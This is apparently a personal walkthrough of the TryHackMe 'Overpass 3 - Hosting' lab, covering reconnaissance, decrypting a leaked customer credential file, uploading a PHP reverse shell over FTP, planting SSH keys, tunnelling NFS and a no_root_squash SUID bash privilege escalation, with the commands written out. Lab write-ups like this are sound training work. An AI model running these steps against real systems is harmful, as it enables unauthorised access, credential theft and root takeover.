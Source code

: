 # Overpass 3 - Hosting

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)

Nmap Scan command:&#x20;

```
nmap -T4 -A 10.10.168.65 -oN nmapscan
```

Nmap output:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 22:39 EDT
Nmap scan report for 10.10.168.65
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

I noticed that they have 3 ports open. I went to the web (port 80) first to check it out:

![](<../../.gitbook/assets/image (338).png>)

There was no `/robots.txt` file. I then ran **gobuster** on the IP address:

```
gobuster dir --url http://10.10.168.65/  -w directory-list-lowercase-2.3-big.txt -t 40
```

About 4% of the gobuster search, I got the following output:

![](<../../.gitbook/assets/image (330).png>)

Going to the backups website, I saw this:

![](<../../.gitbook/assets/image (341).png>)

I then downloaded the file. There were two files in the zip file:

![](<../../.gitbook/assets/image (332).png>)

Using [this write-up](https://musyokaian.medium.com/overpass-3-hosting-tryhackme-walkthrough-d77703a72495), I realized that I can decrupt the file with the private key I have:

```
gpg --import priv.key //import the key
gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx //output to new file
```

Since I am on Linux (Kali), I wanted to convert the file to a version that I would be able to view in. I ran the following command to convert the Excel file into a csv file, which I was able to read:

```
ssconvert CustomerDetails.xlsx newfile.csv
```

I was then able to see the contents of the file:

![](<../../.gitbook/assets/image (335).png>)

It seems to be the customers of the website, based on the context. We also have their username and password. I will try this in FTP, and my plan is that if the password does not work on FTP, then I will try SSH. In FTP, I got access using the credentials for "Par. A. Doxx":

![](<../../.gitbook/assets/image (339).png>)

FTP seemed to only work for that user. The other passwords did not work in FTP. When I tried for SSH, the credentials did not work there either. I then went back to the same write-up above and then realized that I had to upload a php-reverse-shell. Going to [this GitHub page](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I downloaded the reverse-shell script. In the script, I changed the IP address to my TryHackMe IP address. I then uploaded the file to the server:

![](<../../.gitbook/assets/image (326).png>)

I then ran `nc -lvp 1234` on another terminal tab, and was listening for a connection. After visiting **http://10.10.168.65/php-reverse-shell.php**, I got a reverse shell:

![](<../../.gitbook/assets/image (325).png>)

After being stuck for a while, I viewed [this write-up](https://www.aldeid.com/wiki/TryHackMe-Overpass-3-Hosting) in order to see where to go next. I used the command the author of the write-up used:

```
find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
```

This gave me the following output:

![](<../../.gitbook/assets/image (323) (1).png>)

This file had the flag in it:

![](<../../.gitbook/assets/image (328).png>)

I then downloaded Linpeas to my local machine using **wget**. I then pushed that to the server using an http server:

![](<../../.gitbook/assets/image (334).png>)

![](<../../.gitbook/assets/image (342).png>)

I then ran linpeas on the remote machine. I then saw the following, when I also saw in other write-ups as well:

![](<../../.gitbook/assets/image (327).png>)

I then went back to the most recently mentioned write-up, in order to understand what I had to do next. Following [this write-up](https://shishirsubedi.com.np/thm/overpass3/), I uploaded my key to the remote server so I can connect in an easier method. Here are the commands I ran:

```
My machine: ssh-keygen -f paradox
My machine: cat paradox.pub
//Take the information inside the paradox.pub and copy it to the remote machine
Remote machine: echo "ssh-rsa ............" > .ssh/paradox
```

I was then able to ssh into the machine to the user paradox from my machine directly:

![](<../../.gitbook/assets/image (324).png>)

After a long time of being stuck, I finally found a solution reading [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/). My mistake was running the wrong command. The following is what worked for me:

```
ssh -i paradox -L 20049:127.0.0.1:2049  paradox@10.10.168.65
```

I changed 2049 before the IP to 20049, since I kept on getting errors that the port was already in use. I then ran the following command to mount the share to my local machine:

```
sudo mount -t nfs -o port=20049 localhost: nfs
```

If we change directory into the **nfs** folder, we can see the file system mounted there:

![](<../../.gitbook/assets/image (337).png>)

I read the user flag. After that, the ssh authorized key I had uploaded to paradox earlier, I had not uploaded it to **.ssh/authorized\_keys** in the mounted directory. I then was able to SSH to the machine:

![](<../../.gitbook/assets/image (331).png>)

I read up from [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/) that I can now use the **no\_root\_squash **exploit, something that linpeas.sh had shown us earlier. I followed the following commands from the write-up to get it to work:

```
#In the mounted dir, as root user
cp /bin/bash ./
chmod +s bash

#In the remote machine as user james
./bash -p
```

This got me root user on the machine. I then got the root flag.

![](<../../.gitbook/assets/image (340).png>)
